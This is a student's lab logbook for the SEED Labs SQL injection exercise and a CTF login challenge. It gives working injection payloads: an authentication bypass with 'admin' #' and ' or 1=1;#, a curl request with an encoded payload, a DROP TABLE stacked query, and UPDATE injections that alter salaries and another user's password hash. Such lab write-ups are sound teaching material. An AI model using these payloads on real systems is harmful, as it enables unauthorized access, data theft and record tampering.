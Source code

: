 # Trabalho realizado na Semana #8 - SQL Injection Attack

For this week we where proposed to do tasks presented on this link: https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/

## Task 1 - Get Familiar with SQL Statements

The task was to select the data of the user "Alice". As SQL is already well known, we easily arrive at the correct command to complete the task:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

This is how we obtained all of Alice’s personal data:

![image_task1](image-7.png)

## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

We access the website "www.seed-server.com" provided by the Docker container and also the file `unsafe_home.php`. Then we could see that the query used is fragile because the server creates the command dynamically with unsanitized strings from the user input:

![image_task2.1_1](image-8.png)

As the password field is encrypted, it is advantageous to usurp the search operation using only the username field.<br>
By using the "`admin' #`" input, we guarantee privileged access, as all keyword checking becomes irrelevant once it is commented out. Thus, the code executed on the server side became the following:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin' # and Password=’$hashed_pwd’
```

As expected, we were able to log in with the administrator account and thus obtain all the data relating to the rest of the application's users:

![image_task2.1_2](image-9.png)

### Task 2.2 - SQL Injection Attack from command line

This time we carry out the attack through a GET request. An example of a request to this server in a command line would be:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

With the same input from the previous section, this time encrypted using the conventions (%27 = ' and %23 = #), we obtained the following malicious command:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

With this, we obtained the HTML code of the entire page that contained users' personal data

![image_task2.2](image-10.png)

### Task 2.3 - Append a new SQL statement

We can add new SQL commands using ";". To do this, we modified our initial malicious input so that it had a side-effect on the server. For example, delete the credentials table:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

However, the operation was not executed due to a database error:

![image_task2.3](image-11.png)

## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

After logging in with a system account (for example username = Alice, password = 11), we had access to a page to edit personal data. This is managed from the available file `unsafe_edit_backend.php`, which contains a query also dynamically formed with unsanitized strings from user input. <br>
Our attack consists of using the "phone number" field. Using the same technique as in previous topics, we obtained the following code that can manipulate the user's salary:

```sql
933667378',Salary='9999999
```

Note that the single quote (') before the salary value is important to complete the last statement before WHERE. In the end, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

As expected, the salary variable was also changed to the chosen value:

![image_task3.1](image-12.png)

### Task 3.2 - Modify other people’ salary

To change the value of another user's salary, we use a technique similar to the previous one. However, we created a different WHERE clause and commented out the one that was in the system so as not to interfere with the search:

```sql
933667378',Salary='1' WHERE Name='Boby'#
```

With this input, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='1' WHERE Name='Boby'# WHERE ID=$id;
```

Here we can see the value of Boby's salary after the attack:

![image_task3.2](image-13.png)


### Task 3.3 - Modify other people’ password

To change another user's password, we use a technique similar to the previous one. This time the value to be modified was previously encrypted with SHA1 encryption. For example, for the new password `aliceeboss`, the hash is `82acd69fd30df22ef58659d6e483ae39fa56324d`.


```sql
912345678', password='82acd69fd30df22ef58659d6e483ae39fa56324d' WHERE name='Boby'#
```

With this input, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='82acd69fd30df22ef58659d6e483ae39fa56324d' WHERE name='Boby'# WHERE ID=$id;
```

With the new password changed, we were able to log into Boby's account:

![image_task3.3](image-14.png)


# CTF - Control The Flag

When entering the website we are presented with a login page. To unlock the vault we need to provide an valid username and password combination.
The goal for this CTF is to log in as valid user. To achieve that, we can use SQL Injection, since the user inputs are not verified, nor used as parameters for the query.

This is the SQL query executed:
```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

The input used is: `' or 1=1;#`
This input is always true and comments the part where the password is verified.

![login](/Logbooks/img/Week8/login.png)

This is the SQL query that is actually executed:
```php
$query = "SELECT username FROM user WHERE username = '"' or 1=1;#"' AND password = '".$password."'";
```
We can successfully login and obtain the flag.

![flag](/Logbooks/img/Week8/flag.png)